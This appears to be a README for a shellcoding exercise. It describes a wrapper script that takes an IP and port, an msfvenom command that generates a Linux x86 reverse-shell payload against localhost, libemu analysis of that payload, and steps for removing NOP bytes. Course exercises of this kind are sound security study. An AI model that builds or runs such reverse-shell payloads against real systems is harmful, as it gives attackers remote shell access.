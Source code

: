 # Exercise 2


## Usage

```
python3 wrapper.py $IP $PORT
```

![Screenshot](images/wrapper/2.png)

If there are not input variables, the program asks for them:

![Screenshot](images/wrapper/1.png)


## Steps

Get "sctest" result (also using *libemu.sh* script in **scripts/** folder):


```
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

Get hexadecimal values for every syscall (also using *syscallhex.sh* script in **scripts/** folder):
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363

-------------------------------------

sh syscallhex.sh listen
```

## Deleting NOPs

First, there are NOPS:

![Screenshot](images/1.png)

One example is the use of [socket]:

![Screenshot](images/resd_problem/1.png)

Which creates these NOPS:

![Screenshot](images/resd_problem/2.png)

Using Sublime Text it is possible to replace them with "esi", a register which is not being used:

![Screenshot](images/resd_problem/3.png)

Then, it seems there are not more NOP values:

![Screenshot](images/resd_problem/4.png)

It is possible to check it using objdump (in this case through the script *clean.sh* from the **scripts/** folder) and grep:

![Screenshot](images/resd_problem/5.png)


## Adding text messages

![Screenshot](images/2.png)

![Screenshot](images/3.png)


## Argv tests
Get Argc value: 	
https://forum.nasm.us/index.php?topic=889.0
